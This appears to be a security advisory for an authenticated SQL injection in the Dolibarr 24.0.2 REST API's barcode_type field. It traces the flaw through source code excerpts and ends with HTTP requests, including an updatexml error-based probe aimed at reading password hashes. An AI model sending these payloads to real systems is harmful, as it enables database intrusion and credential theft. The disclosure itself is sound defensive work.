### [Dolibarr 24.0.2] [REST API `barcode_type` unquoted numeric-context SQL injection]

**Severity**: [High]
**Authentication requirement**: [REST API key + `produit/creer` permission bit required]
**Vulnerability type**: [SQL injection (error-based injection / cross-table read)]

### Vulnerability Description

When concatenating the `UPDATE`, `Product::update()` only calls `escape()` on `fk_barcode_type` and **adds no quotes** (`htdocs/product/class/product.class.php:1622`), so the value is left bare in a numeric position; the adjacent `barcode` (`:1621`) is quoted, that column itself is an integer foreign key, and the correct fix is an integer cast. The REST layer `PUT /api/index.php/products/{id}` has another field-name mismatch — the object declares `fk_barcode_type`, so when the request passes `barcode_type`, `_checkValForAPI()` cannot find that field, and the key name does not start with `fk_`, so it falls through to the legacy guess `sanitizeVal($value, 'alphanohtml')` (`htdocs/api/class/api.class.php:157-164`), **skipping the int sanitization that should have applied**. With the two combined, an arbitrary SQL expression can be injected into the numeric position using only parentheses, commas, spaces and `0x` hexadecimal.

The default read target is `llx_user.pass_crypted`. Dolibarr passes the raw database error and the full SQL as the third argument of `RestException`, and Restler's `Compose::message()` unconditionally merges it into the JSON `error` (`htdocs/product/class/api_products.class.php:551`, `htdocs/includes/restler/framework/Luracast/Restler/Compose.php:53-61`), so no debug switch needs to be enabled and production mode is irrelevant: `updatexml` error echo can read arbitrary table fields segment by segment; the API entry point itself sets `display_errors` to 0 (`htdocs/api/index.php:38`), so the echo has nothing to do with the PHP display layer.

#### Prerequisites


| Condition                                                  | Type         | True by default / who provides it                                                            | Verification method   |
| ------------------------------------------------------- | -------------- | ---------------------------------------------------------------------------------- | ------------ |
| API / Web services (REST server) and Products module enabled | Deployment default     | Enabled in the backend `Setup → Modules/Applications`                                        | Steps 1/2  |
| The attacker holds a REST API key                           | Attacker-supplied | Generated by the administrator in the user card `Token for API`; request header `DOLAPIKEY`                          | Steps 3/4  |
| The user owning the key holds `produit/creer`                      | Attacker-supplied | `htdocs/product/class/api_products.class.php:406` is the only functional gate; returns 403 without this permission | Steps 8/9  |
| The target product id exists                                      | Attacker-supplied | Any existing product; `fetch` is called before `PUT` (`:410`)                                     | Step 5    |
| The database error is echoed with the 500 response                             | Product defect     | True by default, with no switch at all                                                             | Steps 9/11 |

- **Minimum attack cost**: reading 20 bytes takes 1 request, reading a 60-byte bcrypt takes 3 requests; an authenticated API key is required (`produit/creer`); no interaction; the product id must be known.

#### Data Flow (Source → Sink)

Overview of the call order (file :: function :: line):

```
htdocs/api/index.php (script level)
  ↓ calls new DolibarrApi()                       htdocs/api/index.php:200
  ↓ calls addAuthenticationClass()                htdocs/api/index.php:227
  ↓ calls Restler::handle()                       htdocs/api/index.php:466
  ↓ calls Restler::authenticate()                 htdocs/includes/restler/framework/Luracast/Restler/Restler.php:304
  ↓ calls DolibarrApiAccess::__isAllowed()        htdocs/api/class/api_access.class.php:91
  ↓ returns $fuser (static::$user)                htdocs/api/class/api_access.class.php:326
  ↓ calls Restler::call()                         htdocs/includes/restler/framework/Luracast/Restler/Restler.php:308
  ↓ calls call_user_func_array() → ProductsApi::put()   htdocs/includes/restler/framework/Luracast/Restler/Restler.php:1068
  ↓ calls ProductsApi::put()                      htdocs/product/class/api_products.class.php:400
  ↓ calls DolibarrApi::_checkValForAPI()          htdocs/api/class/api.class.php:101
  ↓ calls sanitizeVal()                           htdocs/core/lib/functions.lib.php:1390
  ↓ returns the original value
  ↓ calls Product::update()                       htdocs/product/class/product.class.php:1402
  ↓ calls DoliDBMysqli::query()                   htdocs/core/db/mysqli.class.php:331
```

SOURCE and the stage chain:

```
SOURCE①: the key name barcode_type in the JSON body (the object declares fk_barcode_type)
SOURCE②: the value in the JSON body (arbitrary SQL expression)
SOURCE③: the HTTP header DOLAPIKEY (or the URL parameter DOLAPIKEY)
SOURCE④: the product id in the URL path
  ↓ Stage 0  htdocs/api/index.php (script level)                          :38-39,56-60,200,227,466   NOLOGIN/NOSESSION; registers the auth class; Restler::handle()
  ↓ Stage 1  htdocs/api/class/api_access.class.php::__isAllowed()   :91,120-121,323-326,339  SOURCE③ is read and stored as $fuser; a missing/wrong key gets 401 directly at :339
  ↓ Stage 2  htdocs/includes/restler/framework/Luracast/Restler/Restler.php::call()  :1046-1068  call_user_func_array invokes put() (:1068), the object is obtained via Scope::get (:1054)
  ↓ Stage 3  htdocs/product/class/api_products.class.php::put()     :400-412,427-442,450     :406 permission gate; :410 fetches SOURCE④; :442 sanitizes field by field
  ↓ Stage 4  htdocs/api/class/api.class.php::_checkValForAPI()      :101,128-137,157-164     SOURCE① makes the field unfindable → :164 alphanohtml
  ↓ Stage 5  htdocs/core/lib/functions.lib.php::sanitizeVal()       :1390,1459-1489          SOURCE② is not blocked and is returned as-is
  ↓ Stage 6  htdocs/product/class/product.class.php::update()       :1402,1603,1621-1622,1683 SOURCE② lands in the unquoted numeric position
  ↓ Stage 7  htdocs/core/db/mysqli.class.php::query()               :331,361,371             the expression is evaluated on the MySQL side
SINK:    UPDATE llx_product SET …, fk_barcode_type = <expression>  → the error is echoed via put():551 → Compose:53
```

#### Code Analysis

**Stage 0 [Entry] `htdocs/api/index.php` (script level, outside any function) → calls ↓Stage 1 `htdocs/api/class/api_access.class.php::__isAllowed()`**——`htdocs/api/index.php:38-39,56-60,200,227,466`

```php
// htdocs/api/index.php:38-39,56-60,200,227,466 (script level, outside any function)
@ini_set('display_errors', '0');                              // :38  ← the API entry point disables PHP error display itself
@ini_set('log_errors', '1');                                  // :39
...
if (!defined("NOLOGIN")) {
	define("NOLOGIN", '1');                                   // :57  ← does not go through the login page
}
if (!defined("NOSESSION")) {
	define("NOSESSION", '1');                                 // :60  ← does not use a session
}
...
$api = new DolibarrApi($db, '', $refreshcache);               // :200  Restler instance
...
$api->r->addAuthenticationClass('DolibarrApiAccess', '');     // :227  → calls ↓Stage 1 __isAllowed()
...
$responsedata = $api->r->handle();                            // :466  triggers routing and authentication
```

> This stage only does entry wiring: `:57-60` declares `NOLOGIN`/`NOSESSION`; `:227` registers `DolibarrApiAccess` as the authentication class; inside `Restler::handle()` at `:466`, processing advances through `route()` (`:284-289`) → `authenticate()` (`:304`) → `call()` (`:308`), where `authenticate()` enters ↓Stage 1 and `call()` enters ↓Stage 2 to complete dispatch to `put()`. `:38` deliberately disables `display_errors`, which shows that the later SQL error echo does not come from the PHP display layer. SOURCE③ has not been read yet here; it is left to ↓Stage 1.

**Stage 1 [Authentication] `htdocs/api/class/api_access.class.php::__isAllowed()` → returns `$fuser` → calls ↓Stage 2 `htdocs/includes/restler/framework/Luracast/Restler/Restler.php::call()`**——`htdocs/api/class/api_access.class.php:91,120-121,323-326,339`

```php
// htdocs/api/class/api_access.class.php:91-339 (DolibarrApiAccess::__isAllowed())
public function __isAllowed()
{
	...
	if (isset($_SERVER['HTTP_DOLAPIKEY'])) {                  // :120  ← SOURCE③
		$api_key = $_SERVER['HTTP_DOLAPIKEY'];                 // :121  header method (URL parameter at :112-114)
	}
	...
	$fuser->loadRights();                                     // :323
	static::$user = $fuser;                                   // :326  → returns to handle(), which then calls ↓Stage 2 call()
	...
	throw new RestException(401, "Failed to login to API. Neither parameter 'HTTP_DOLAPIKEY' nor 'Authentication: Bearer' found on HTTP header (and no parameter DOLAPIKEY in URL).");   // :339  no key → 401 directly
```

> SOURCE③ is consumed here: if the key is valid it is stored as `static::$user` and permissions are loaded; if it is invalid/missing, a 401 is returned directly at `:339` and ↓Stage 2 is never entered. This stage only answers "who", not "what can be done" — the permission decision is at ↓Stage 3 `:406`.

**Stage 2 [Routing and dispatch] `htdocs/includes/restler/framework/Luracast/Restler/Restler.php::call()` → calls ↓Stage 3 `htdocs/product/class/api_products.class.php::put()` (via `call_user_func_array()`)**——`htdocs/includes/restler/framework/Luracast/Restler/Restler.php:1046,1054,1068`

```php
// htdocs/includes/restler/framework/Luracast/Restler/Restler.php:1046-1068 (Restler::call())
protected function call()
{
	$this->dispatch('call');                                  // :1048
	$o = & $this->apiMethodInfo;                              // :1050  ← target method info resolved by route()
	...
	$object = Scope::get($o->className);                      // :1054  ← ProductsApi instance
	...
	$result = call_user_func_array(array(
		$object,
		$o->methodName                                        // :1066  'put'
	), $o->parameters);                                       // :1068  ★ actually calls ↓Stage 3 ProductsApi::put()
	$this->responseData = $result;
}
```

> The real caller of `put()` is `Restler::call()`: `:1054` takes the `ProductsApi` instance out of the container, and `:1068` invokes `$o->methodName` (that is, `put`) with `call_user_func_array()`, the arguments `$o->parameters` being `[product id, request body array]`. `$o` is resolved by `Restler::route()` (`:284-289`) from `PUT /api/index.php/products/{id}`; `handle()` calls `call()` at `:308`, after `authenticate()` (`:304`).

**Stage 3 [Permission gate and value handling] `htdocs/product/class/api_products.class.php::put()` → calls ↓Stage 4 `htdocs/api/class/api.class.php::_checkValForAPI()`**——`htdocs/product/class/api_products.class.php:400-412,427-442,450`

```php
// htdocs/product/class/api_products.class.php:400-450 (ProductsApi::put())
public function put($id, $request_data = null)                // :400
{
	...
	if (!DolibarrApiAccess::$user->hasRight('produit', 'creer')) {   // :406  ★ the only functional gate
		throw new RestException(403);
	}
	$result = $this->product->fetch($id);                     // :410  ← SOURCE④ fetches the target product
	...
	foreach ($request_data as $field => $value) {              // :427  ← SOURCE① as the key name, SOURCE② as the value
		...
		$this->product->$field = $this->_checkValForAPI($field, $value, $this->product);   // :442  → calls ↓Stage 4 _checkValForAPI()
	}
	...
	$result = $this->product->update($id, DolibarrApiAccess::$user, 1, 'update', $updatetype);   // :450  → calls ↓Stage 6 Product::update()
```

> The gate is in place and effective: a key without `produit/creer` gets 403 at `:406`, and no SQL is even produced (step 8). SOURCE④ is consumed at `:410`; SOURCE①② are still in `$request_data` and are handed to ↓Stage 4 for field-by-field sanitization. The return value of `:442` is written into the **dynamic property** `$this->product->barcode_type`.

**Stage 4 [Sanitization downgrade] `htdocs/api/class/api.class.php::_checkValForAPI()` → calls ↓Stage 5 `htdocs/core/lib/functions.lib.php::sanitizeVal()`**——`htdocs/api/class/api.class.php:101,128-137,157-164`

```php
// htdocs/api/class/api.class.php:101-164 (DolibarrApi::_checkValForAPI())
protected function _checkValForAPI($field, $value, $object)   // :101
{
	...
	if (!empty($object->fields) && !empty($object->fields[$field]) && !empty($object->fields[$field]['type'])) {   // :128  ★ only declared fields are sanitized by type
		if (strpos($object->fields[$field]['type'], 'int') === 0 || ...) {
			return sanitizeVal($value, 'int');                 // :130  ← barcode_type is not found, so this is never reached
		}
		...
	}
	...
	if (preg_match('/^fk_/i', $field)) {                       // :157  ← barcode_type does not start with fk_
		return sanitizeVal($value, 'int');                      // :159
	}
	...
	return sanitizeVal($value, 'alphanohtml');                  // :164  → calls ↓Stage 5 sanitizeVal()
```

> The object declares `'fk_barcode_type' => array('type' => 'integer', …)` (`htdocs/product/class/product.class.php:879`). Writing `fk_barcode_type` hits `:128` and takes the int sanitization at `:130`; writing `barcode_type` fails to match at `:128` and does not match at `:157` either, falling through to `alphanohtml` at `:164` — this stage is the failure point where a field-name mismatch causes the type sanitization to be skipped.

**Stage 5 [Filter pass-through] the `alphanohtml` branch of `htdocs/core/lib/functions.lib.php::sanitizeVal()` → returns the original value → calls ↓Stage 6 `htdocs/product/class/product.class.php::update()`**——`htdocs/core/lib/functions.lib.php:1390,1459-1489`

```php
// htdocs/core/lib/functions.lib.php:1459-1489 (the alphanohtml branch of sanitizeVal())
case 'alpha':		// No html and no ../ and "
case 'alphanohtml':	// Recommended for most scalar parameters and search parameters. Not valid for json string.
	if (!is_array($out)) {
		$out = trim($out);                                     // :1464
		do {
			$oldstringtoclean = $out;
			$out = dol_string_nohtmltag($out, 0);               // :1477  ← strips HTML tags only
			$out = str_ireplace(array('../', '..\\', '&', '&quot', '"', '/', '/', '\', '\\'), '', $out);   // :1487  the blacklist covers only dot files/HTML entities/quotes/slashes
		} while ($oldstringtoclean != $out);
	}
	break;
```

> The blacklist does not contain single quotes, spaces, parentheses, commas, equals signs or `0x`. This injection point is an **unquoted numeric context**, so not even a single quote is needed; `( ) , = space` all survive, which is enough to assemble an expression. SOURCE② is returned as-is, goes back to `htdocs/product/class/api_products.class.php:442` and is assigned to the dynamic property, after which `:450` calls ↓Stage 6.

**Stage 6 [SQL concatenation] `htdocs/product/class/product.class.php::update()` → calls ↓Stage 7 `htdocs/core/db/mysqli.class.php::query()`**——`htdocs/product/class/product.class.php:1402,1603,1621-1622,1678,1683`

```php
// htdocs/product/class/product.class.php:1402-1683 (Product::update())
public function update($id, $user, $notrigger = 0, $action = 'update', $updatetype = false)   // :1402
{
	...
	$sql = "UPDATE ".$this->db->prefix()."product";             // :1603
	...
	$sql .= ", barcode = ".(empty($this->barcode) ? "null" : "'".$this->db->escape($this->barcode)."'");   // :1621  ← quoted
	$sql .= ", fk_barcode_type = ".(empty($this->barcode_type) ? "null" : $this->db->escape((string) $this->barcode_type));   // :1622  ★ SOURCE② unquoted
	...
	$sql .= " WHERE rowid = ".((int) $id);                       // :1678
	...
	$resql = $this->db->query($sql);                             // :1683  → calls ↓Stage 7 query()
```

> The adjacent field on the same line is the correct pattern: `barcode` at `:1621` is quoted, `fk_barcode_type` at `:1622` is not. That column is an integer foreign key, and the correct form is `((int) $this->barcode_type)`. `escape()` only escapes quote-type characters, so in an unquoted context it amounts to no protection at all.

**Stage 7 [SINK] `htdocs/core/db/mysqli.class.php::query()`**——`htdocs/core/db/mysqli.class.php:331,361,371`

```php
// htdocs/core/db/mysqli.class.php:331-371 (DoliDBMysqli::query())
public function query($query, $usesavepoint = 0, $type = 'auto', $result_mode = 0)   // :331
{
	...
	$ret = $this->db->query($query, $result_mode);               // :361  ★ the injected expression is evaluated on the MySQL side
	...
	if (!$ret) {
		$this->lastqueryerror = $query;
		$this->lasterror = $this->error();                       // :371  ← the DB error is saved
	}
```

> The evaluation result (including `XPATH syntax error: '~…'`) is written into the database error state and passed up to `$this->error` of `Product::update()` (`htdocs/product/class/product.class.php:1833`), then through `RestException(500, "Error updating product", [error])` at `htdocs/product/class/api_products.class.php:551` and `htdocs/includes/restler/framework/Luracast/Restler/Compose.php:53-61`, which unconditionally merges it into the JSON `error."0"` — this is the observation channel of the error oracle.

### Exploitation Flow

> In the following requests, `<key>` and the product id are filled in by the verifier according to their own environment; the API key is generated in the backend under `Users and Groups → Users → Modify → Token for API` (用户和组 → 用户 → 修改).

#### Vulnerability Verification

1. Enable the Products module



2. Enable the API / Web services (REST server) module



3. Create a test user and fill in Token for API





Modify the permissions, granting the two product-related permissions





5. Create a product







6. Call without any credentials to confirm the entry point requires authentication

```HTTP
PUT /api/index.php/products/2 HTTP/1.1
Host: 127.0.0.1:8091
Content-Type: application/json

{"barcode_type":"1"}
```



8. Use a wrong key, likewise 401

```HTTP
PUT /api/index.php/products/2 HTTP/1.1
Host: 127.0.0.1:8091
Content-Type: application/json
DOLAPIKEY: wrong-key-123456

{"barcode_type":"1"}
```



9. Use a key holding `produit/creer` to confirm the request has reached the injection point: the value is not a valid foreign key, and the 500 response body carries both the database error and the full SQL

```HTTP
PUT /api/index.php/products/2 HTTP/1.1
Host: 127.0.0.1:8089
Content-Type: application/json
DOLAPIKEY: <a key holding produit/creer>

{"barcode_type":"x"}
```



10. Baseline: put an expression that is syntactically valid and evaluates to NULL in the same position; the statement executes normally

```HTTP
PUT /api/index.php/products/2 HTTP/1.1
Host: 127.0.0.1:8089
Content-Type: application/json
DOLAPIKEY: <a key holding produit/creer>

{"barcode_type":"IF(1=1,fk_barcode_type,1)"}
```



11. Error-based injection probe: make the XPath syntax of `updatexml` fail so the probe value is carried into the error string

```HTTP
PUT /api/index.php/products/2 HTTP/1.1
Host: 127.0.0.1:8089
Content-Type: application/json
DOLAPIKEY: <a key holding produit/creer>

{"barcode_type":"(SELECT updatexml(1,concat(0x7e,(SELECT 1),0x7e),1))"}
```

